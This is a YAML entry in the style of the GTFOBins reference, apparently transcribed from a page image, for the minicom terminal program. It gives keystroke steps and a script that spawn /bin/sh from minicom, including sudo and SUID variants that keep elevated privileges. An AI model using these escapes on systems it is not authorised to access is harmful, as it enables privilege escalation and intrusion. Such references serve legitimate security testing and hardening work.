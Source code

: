 ```yaml
---
description: Note that in some versions, `Meta-Z` is used in place of `Ctrl-A`.
functions:
  shell:
    - description: |
        Start the following command to open the TUI interface, then:
        1. press `Ctrl-A o` and select `Filenames and paths`;
        2. press `e`, type `/bin/sh`, then `Enter`;
        3. Press `Esc` twice;
        4. Press `Ctrl-A k` to drop the shell.
        After the shell, exit with `Ctrl-A x`.
      code: |
        minicom -D /dev/null
  sudo:
    - description: |
        Start the following command to open the TUI interface, then:
        1. press `Ctrl-A o` and select `Filenames and paths`;
        2. press `e`, type `/bin/sh`, then `Enter`;
        3. Press `Esc` twice;
        4. Press `Ctrl-A k` to drop the shell.
        After the shell, exit with `Ctrl-A x`.
      code: |
        sudo minicom -D /dev/null
  suid:
    - description: |
        Start the following command to open the TUI interface, then:
        1. press `Ctrl-A o` and select `Filenames and paths`;
        2. press `e`, type `/bin/sh -p`, then `Enter`;
        3. Press `Esc` twice;
        4. Press `Ctrl-A k` to drop the shell.
        After the shell, exit with `Ctrl-A x`.
      code: |
        ./minicom -D /dev/null
  shell:
    - description: |
        After the shell, exit with `Ctrl-A x`.
      code: |
        TF=$(mktemp)
        echo "! exec /bin/sh <$(tty) 1>$(tty) 2>$(tty)" >$TF
        minicom -D /dev/null -S $TF
        reset^J
---
```

